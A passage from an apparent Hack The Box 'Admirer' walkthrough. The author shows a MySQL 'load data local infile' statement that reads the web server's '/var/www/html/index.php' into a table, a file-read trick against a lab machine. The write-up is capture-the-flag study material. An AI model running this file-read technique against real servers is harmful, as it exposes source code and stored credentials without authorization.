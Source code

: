 ![](/images/HTB_Admirer/HTB_Admirer_6.png)

Okay so it wasn't going to be that easy haha.

From here we have to try a couple of different files. Eventually I tried the index.php that is on the webserver:

{% highlight mysql %}
load data local infile '/var/www/html/index.php'
into table test
fields terminated by "/n"
{% endhighlight %}
